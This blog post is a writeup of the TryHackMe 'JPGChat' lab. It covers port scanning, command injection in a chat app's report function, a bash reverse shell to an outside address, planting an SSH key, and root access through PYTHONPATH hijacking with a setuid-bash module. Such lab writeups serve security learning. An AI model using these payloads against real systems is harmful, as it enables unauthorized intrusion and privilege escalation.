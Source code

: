 ```yaml
---
layout: post
title:  "TryHackMe - JPGChat Writeup"
date:   2021-08-17 08:47:00 -0400
categories: tryhackme pentesting cybersecurity
---
```


[JPGChat](https://tryhackme.com/room/jpgchat) was a very quick and easy box, but it does have a simple OSINT step that was a bit of fun to follow.

## Nmap Emumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versitle tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to intead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-p`: Scan specific ports. `-p<n>` will scan a specific port, and `-p-` scans every port from 1 to 65,535. While doing a full port scan is good, it can take a while, so it's good to let that one run whle you're doing other tasks.

We'll run two Nmap scans. The first one will scan the top 1000 ports that are listening to give us a strong starting point, and the second scan will run in the background and check every possible port. Since this second scan will take longer, we can let it run in the background while we work on other things.

```bash
nmap -sC -sV -v -oN nmap-initial.nmap 10.10.54.184
nmap -p- -v -oN nmap-allports.nmap 10.10.54.184
```

Nmap finds two open ports: port 22 running SSH, and port 3000. While Nmap can't identify what service is running, it does try to give us some informaiton that we can use to identify the service ourselves.

```
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

We get that same message if we try to connect using Netcat.

``` 
$ nc 10.10.54.184 3000
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

There are two important facts that will help us proceed:

1. The name of the service is JPChat
2. The source code for the application is on GitHub somewhere.

## Command Injection

A quick Google search finds us a [GitHub repository](https://github.com/Mozzie-jpg/JPChat), and checking the source code seems to line up with the welcome message we got when connecting, so it's probably safe to assume this is the same application.

Inspecting the source code of the application, there's something interesting in the "report" function.

```python
def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```

The input fields for our name and report are both passed to `os.system` without any kind of filtering. This means we can probably break out of the command that was intended to be run and run our own arbitrary commands.

We'll use a single-quote to break out of the initial `bash -c` command, add a semicolon to specify that we want to start a new command, and end things off with a pound sign to comment out the rest of the line. We can do a simple proof-of-concept before we actually start running anything malicious.

```
[REPORT]
this report will be read by Mozzie-jpg
your name:
'; whoami #
your report:
'; #

wes
```

Our `whoami` command gives us a username back, meaning we do indeed have sucessful command injection. Now we can build out a reverse shell to get proper access to the box. If you've never built a reverse shell before, there are [plenty of online resources](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to help you out. Below is one of the more basic and common bash reverse shells.

```
'; bash -c 'bash -i >& /dev/tcp/10.13.14.52/9001 0>&1'; #
```

We land as the `wes` user, who has access to the user flag. We know SSH is listening on the box, so while we're here we can also drop an SSH key in to give us better persistence. An SSH session will just be a much better experience than a reverse shell, plus it opens up potentially useful features like file transfers and port forwarding.

## Privilege Escalation
We'll start with some basic manual enumeration before we get into anything automated. There aren't any interesting files in `wes`'s home directory, but `sudo -l` gives us a useful find.

```
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

There are two things we should take away from this information:

1. `wes` can run the `test_module.py` script as root without entering a password.
2. The `PYTHONPATH` environment variable will be retained when running commands with `sudo`

The `test_module.py` script is only writeable by root, meaning we can't just edit it, so we'll need to find another way to exploit that script.

If you aren't already familiar with Python's environment variables, a quick Google search will show you that the `PYTHONPATH` variable declares the location that Python should look for modules and packages. We can read the contents of the `test_module.py` and see that it imports the `compare` module. If we could make our own malicious `compare` module and force the script to load it with the `PYTHONPATH` variable, that should be enough to root the box.

```python
import os

class compare:
  def Str(s1,s2,s3):
    os.system('cp /bin/bash /bin/sbash')
    os.system('chmod +s /bin/sbash')
```

This script creates a copy of `bash` and then sets the [setuid bit](https://man7.org/linux/man-pages/man2/setuid.2.html) on that copy, which will give us a root shell if we run the copy with the `-p` flag. We'll create a folder to store our script in, save it as `compare.py`, and add that folder to the `PYTHONPATH` variable.

```bash
export PYTHONPATH=/home/wes/mod
sudo python3 /opt/development/test_module.py
/bin/sbash -p
```

We now have root access and can grab the root flag.
